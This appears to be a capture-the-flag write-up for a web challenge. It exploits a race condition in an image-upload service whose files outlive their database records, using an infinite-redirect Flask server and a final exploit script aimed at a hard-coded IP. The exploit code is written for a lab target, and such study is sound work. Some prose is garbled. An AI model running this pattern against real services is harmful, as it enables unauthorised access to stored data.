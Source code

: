 + You can upload images and set a password. Once you upload it, you will receive a temporary URL. When you access the temporary URL, a mosaiced image will be displayed and 10 seconds will be counted. If you enter the correct password before the count runs out, the original uploaded image will be displayed, but if you cannot enter it, you will be alerted with "BOOOOOOM 💣" and the image itself will be deleted, including the link.
+  `/<id>`GET displays the mosaic image, and POST displays the original image if the passwords match.
+ the __add_image function tarts a new thread using the convert_and_save function, passing along the id_, file, and image_url. This function is responsible for processing the image data and saving it to a file.
+ Adds the image information to the database using the db.add_image function, passing the id_, mimetype, and password
+ The `/trial`endpoint  calls the __add_image function with the generated password, UUID, and the file object.
It returns a JSON response containing the URL of the added image.
+ when the timer expires, the image is not deleted from the disk but only db.delete_image is called, which removes the record from the database but not the file from the disk. So if we request /trial and visit it, the image will still be present on the disk.
Note that when we upload an image, we can specify an id, so we can specify the previous generated one
Moreover, it should be noted that when __add_image is called, a thread is started where it is possible to make a get request and then update the image on the disk.
If I make a request that takes more than 5 seconds to respond, __add_image will have inserted the record with our id and the password we specified, which will however refer to the original disk image for the time remaining for the request to complete. 
+ Since the actual file remains here, you can read it by matching it with the ID of your image.
However, if you try to match the IDs and read them out, a problem will occur. It takes 5 seconds for the ID of your image to be added to the DB using the function.
```
def __add_image(password, id_, file=None, image_url=None, admin=False):
    t = Thread(target=convert_and_save, args=(id_, file, image_url))
    t.start()

    # no need, but time to waiting heavy response makes me excited!!
    if not admin:
        time.sleep(5)
~~~
    db.add_image(id_, mimetype, password)
```

+ On the other hand, in a function in another thread, convert_and_savethe flag image remained for 3s for the URL and immediately for the file? The actual file is overwritten with your own image.
+ Is it possible to somehow convert_and_savelengthen the processing time of the function so that the file is overwritten after __add_imagethe function has finished
+ At first glance, it seems like it always times out after 3s, but in reality, if the site redirects repeatedly, it will wait 3s for each redirect. In other words, if you set up a server that redirects infinitely as shown below, the function will not end and the file will not be overwritten.db.add_image(id_, mimetype, password)
requests.get(url, timeout=3)

+ ```
import time
from flask import Flask, redirect

app = Flask(__name__)

@app.route("/")
def infinite_redirect():
    time.sleep(2)
    return redirect("/", code=302)

if __name__ == "__main__":
    app.run(debug=False, host="0.0.0.0", port=80)
```
+ final exploit

```
import requests
import time

url = "http://35.200.21.52/"

get_image = requests.get(url + "trial")

flag_url = get_image.json()["url"]
id = flag_url.split("/")[-1]

print(flag_url, id)

a = requests.get(flag_url)

time.sleep(11)

a = requests.post(
    url,
    data={
        "id": id,
        "password": "password",
        "image_url": "https://b22a-103-149-158-214.ngrok-free.app/a.jpg",
    },
)
print(a.text)

a = requests.post(flag_url, data={"id": id, "password": "password"})
print(a.text)
```